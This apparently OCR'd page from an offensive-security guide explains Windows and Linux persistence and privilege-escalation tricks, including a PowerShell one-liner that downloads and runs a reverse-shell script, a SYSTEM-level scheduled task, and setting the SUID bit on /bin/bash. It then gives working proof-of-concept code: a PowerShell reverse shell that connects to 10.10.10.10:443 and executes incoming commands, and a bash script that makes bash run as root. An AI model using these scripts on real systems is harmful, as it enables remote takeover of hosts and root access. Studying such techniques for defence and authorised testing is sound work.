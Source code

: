 **PowerShell Reverse Shell (iex (iwr http://10.10.10.10/reverse.ps1)):**

- `iex`: The `Invoke-Expression` cmdlet allows execution of strings as PowerShell commands.
- `iwr`: The `Invoke-WebRequest` cmdlet downloads content from a URL (in this case, a reverse shell script).
- This command enables attackers to fetch and execute a malicious script remotely.

**Scheduled Task Creation (schtasks /create):**

- `/SC Weekly`: Defines how often the task will run. Other options include daily, monthly, etc.
- `/RU "NT Authority\SYSTEM"`: Specifies that the task runs as SYSTEM, which is the highest privilege on the machine.

---

### **Linux**

**Setting the SUID Bit (chmod +s /bin/bash):**

- The SUID bit allows the user to execute the binary with the permissions of the file owner, which in the case of `/bin/bash`, would be root. This is a critical vulnerability if improperly set on executables.

**Cron Job Example (0 0 * * * /bin/bash /home/user/insecure_script.sh):**

- This cron job runs at midnight every day, executing a script that could be tampered with by an attacker if it has insecure permissions.

---

### Proof-of-Concept (PoC) Scripts

### **Windows PoC Script**

```powershell
# PowerShell reverse shell script (reverse.ps1)
$ip = "10.10.10.10"
$port = 443
$tcpClient = New-Object System.Net.Sockets.TcpClient($ip, $port)
$stream = $tcpClient.GetStream()
$writer = New-Object System.IO.StreamWriter($stream)
$reader = New-Object System.IO.StreamReader($stream)
$writer.WriteLine($env:COMPUTERNAME)
$writer.Flush()
while ($true) {
    $command = $reader.ReadLine()
    $output = Invoke-Expression -Command $command
    $writer.WriteLine($output)
    $writer.Flush()
}
```

### **Linux PoC Script**

```bash
#!/bin/bash
# This script sets SUID on bash and runs with root privileges
echo 'chmod +s /bin/bash' > /home/user/systemupdate.sh
chmod +x /home/user/systemupdate.sh
/bin/bash -p
```

---